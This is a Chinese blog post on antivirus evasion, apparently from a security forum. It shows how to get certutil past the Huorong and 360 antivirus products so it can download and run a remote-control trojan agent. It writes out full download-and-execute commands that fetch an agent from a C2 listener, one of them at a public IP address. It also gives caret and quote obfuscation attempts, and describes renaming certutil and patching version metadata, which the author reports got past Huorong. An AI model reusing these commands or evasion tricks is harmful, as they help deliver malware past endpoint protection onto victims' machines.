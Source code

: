 
免杀学习 - 从指令绕过开始 (2)



# 免杀学习 - 从指令绕过开始 (2)

# certutil 指令绕过

上次我们的免杀成功的绕过了联网 360，但在半个月后就被无情的杀掉了，原因和火绒的报错一致是因为敏感指令 certutil 导致了报警，那么我们本次学习的主题就是如何绕过 certutil 的报警

那我们先看看通过 cetutil 指令进行下载的时候，他们的参数都有着什么作用

```plain
-f
覆盖现有文件。
有值的命令行选项。后面跟要下载的文件 url。
-split
保存到文件。
无值的命令行选项。加了的话就可以下载到当前路径，不加就下载到了默认路径。
-URLCache
显示或删除 URL 缓存条目。
无值的命令行选项。
（certutil.exe 下载有个弊端，它的每一次下载都有留有缓存。）
```

可以在命令后面加上 delete 指令删除缓存

查看缓存

```plain
certutil -urlcache *
```

[![](assets/1701612194-a62fa93383f88b22a4876c3fe2a84f7c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804164455-2fabbbda-32a3-1.png)

看个缓存 360 直接报错了，因此可以判断是否目前 360 对于 certutil 的防御策略中有一项是针对我们的 certutil 的字符进行限制

执行删除缓存

```plain
certutil -urlcache * delete
```

## 绕过火绒

我们首先看看破晓中给我们的 certutil 的下载语句

```plain
certutil -urlcache -gmt -split -f http://127.0.0.1:1338/d/pzxsnoqd pzxsnoqd.exe && pzxsnoqd.exe agent -u http://127.0.0.1:1338 -s e75tdmwe
```

我们首先看看下载语句

```plain
certutil -urlcache -gmt -split -f http://127.0.0.1:1338/d/pzxsnoqd pzxsnoqd.exe
```

[![](assets/1701612194-c25cf19662c6cd2b2ec4116fbafbcc15.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804164825-acc0e10e-32a3-1.png)

会直接报警，防护提示显示是利用 certutil 下载可执行文件

### 语句上混淆（×）

我们调换四个带横线句子的顺序看看能否完成绕过

```plain
certutil -urlcache -gmt -split -f http://127.0.0.1:1338/d/pzxsnoqd pzxsnoqd.exe
```

无论怎么换，依旧报警即无法实现原有的字符混淆

### 尝试添加干扰参数（×）

添加一些无关参数

```plain
certutil -a -urlcache -gmt -split -f http://127.0.0.1:1338/d/pzxsnoqd pzxsnoqd.exe
```

添加了一些无关字段还是会报警

### 尝试从命令执行语句的构造上绕过（×）

除了常见的&和 | 命令外通过资料查找发现 windows 存在一些字符在命令执行的时候不会影响原语句的执行如：

```plain
p^i^n^g www.baidu.com
```

[![](assets/1701612194-2d2aba80a588781175c073bc1fa1918e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804165330-629dee40-32a4-1.png)

还有一个是利用双引号绕过

[![](assets/1701612194-ca8785244b755a98816c7472c71319ac.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804165358-732a3ac0-32a4-1.png)

那么我们根据其特性进行类似构造

```plain
^c""^e^r^t""u^ti^l -u^r"l""""cache -gmt -split -f ht""tp://1"2"7.0.0.1:13""38/d/pzxsnoqd pzxsn""oqd.^e^""x""^e
```

炸裂还是不行

### 给 certutil 换个路径和文件名（√）

```plain
更换
copy c:\windows\system32\certutil.exe c.exe
下载
a -urlcache -split -f http://43.143.224.232:1338/d/pzxsnoqd pzxsnoqd.exe
```

[![](assets/1701612194-715c7b9d2a1ba189011bc1efb7f861bf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804165429-85dd4220-32a4-1.png)

终于成功了，nice

[![](assets/1701612194-88cc8c68bcb879b84606219d1d3e05ef.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804165456-95e09442-32a4-1.png)

远程连接也是成功的，实现了火绒的绕过

## 360 绕过

那三板斧直接先给他来一下，既然火绒能绕过，360 不得试试同样的方法行不行

[![](assets/1701612194-303373daa6eeee6ab6c5870938e36274.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804165520-a3fe58b6-32a4-1.png)

及时将前面绕过火绒的四个方法排列组合也不太行，寻找别的方法

### 多次命令路径的切换（×）

将我们复制的 a，再次复制命名为 b 再次执行还是报警

推测可能是分析了命令执行的行为

### 尝试动态绕过（⚪）

这里可能不算真正意义上的手动绕过我们利用工具一个三方的小巧好用的修改工具 verpatch，经过测试只需要修改程序版本信息中 InternalName 字段的值，这里我们 InternalName 修改为空看看情况。

```plain
verpatch.exe zzz.exe /s InternalName ""
```

[![](assets/1701612194-cd061ffefa5afa8af4cb7e84155c39d0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804165535-ad0c7c80-32a4-1.png)

但最离谱的是我们在执行木马的时候居然报警了

[![](assets/1701612194-a22fd245e01d6b3304a8b9263bbbfe78.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804165551-b6d266d0-32a4-1.png)

这是非常炸裂的

以 jpg 文件下载下来，执行依旧不行

[![](assets/1701612194-ab4e321005f00bc6db0904ec543deb99.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804165609-c131d214-32a4-1.png)

# 参考文献

```plain
https://www.freebuf.com/articles/endpoint/334548.html

https://xz.aliyun.com/t/9737#toc-1
```
